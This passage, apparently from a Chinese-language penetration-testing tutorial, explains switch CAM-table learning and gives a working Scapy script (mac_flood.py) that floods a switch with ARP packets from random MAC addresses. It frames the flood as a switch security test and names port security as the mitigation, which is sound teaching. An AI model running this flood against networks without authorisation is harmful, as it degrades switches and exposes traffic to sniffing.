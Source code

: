 CAM 表格学习活动

上图分为两部分。在第一部分中，具有**MAC A**的计算机向具有**MAC B**的计算机发送**ARP**数据包。交换机学习数据包，从物理端口`1`到达，并在**CAM 表**中做一个条目，使得 MAC A 与端口`1`关联。交换机将数据包发送到所有连接的设备，因为它没有 MAC B 的 CAM 条目。在图的第二部分，具有 MAC B 的计算机响应。交换机得知它来自端口`2`。因此，交换机做出一个条目，说明 MAC B 计算机连接到端口`2`。

# MAC 洪水逻辑

当我们发送大量请求时，如上图所示，如果主机 a 使用不同的 MAC 发送虚假的 ARP 请求，那么交换机每次都会为端口`1`创建一个新条目，例如`A—1`、`X—1`、`Y—1`。有了这些假条目，CAM 表将变满，开关将开始像集线器一样工作。

现在，让我们按如下方式编写代码：

```py
from scapy.all import *
num = int(raw_input("Enter the number of packets "))
interface = raw_input("Enter the Interface ")

eth_pkt = Ether(src=RandMAC(),dst="ff:ff:ff:ff:ff:ff")

arp_pkt=ARP(pdst='192.168.1.255',hwdst="ff:ff:ff:ff:ff:ff")

try:
  sendp(eth_pkt/arp_pkt,iface=interface,count =num, inter= .001)

except : 
  print "Destination Unreachable "
```

前面的代码很容易理解。首先，它询问您要发送的数据包的数量。然后，对于接口，您可以选择`WLAN`接口或`eth`接口。`eth_pkt`语句形成一个带有随机 MAC 地址的以太网数据包。在`arp_pkt`语句中，使用目的 IP 和目的 MAC 地址形成`arp`请求包。如果您想查看完整的数据包字段，可以使用 Scapy 中的`arp_pkt.show()`命令。

`mac_flood.py`的 Wireshark 输出如下图所示：

![](img/490deb01-6f40-43dc-ae9e-bed6359bf000.png)

MAC 洪泛攻击的输出

MAC 洪泛的目的是检查交换机的安全性。如果攻击成功，请在报告中标记为成功。为了减轻 MAC 洪泛攻击，请使用端口安全。端口安全性仅将传入流量限制为一组选定的 MAC 地址或数量有限的 MAC 地址和 MAC 洪泛攻击

# 通过原始套接字解除网关关联
